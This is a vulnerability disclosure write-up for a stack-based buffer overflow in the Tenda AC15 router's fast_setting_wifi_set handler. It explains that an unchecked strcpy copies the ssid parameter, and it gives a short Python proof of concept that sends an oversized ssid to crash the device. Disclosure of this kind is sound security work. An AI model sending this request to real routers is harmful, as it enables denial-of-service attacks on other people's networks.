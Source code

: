 # Tenda Router AC15 Vulnerability
This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AC15_V15.03.05.18. (The latest version is [AC15_V15.03.05.19](https://www.tenda.com.cn/download/detail-2680.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `form_fast_setting_wifi_set`.

In function `form_fast_setting_wifi_set` it reads user provided parameter `ssid` into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/AC15/215_1/vlun2.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a Deny of Service Attack.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
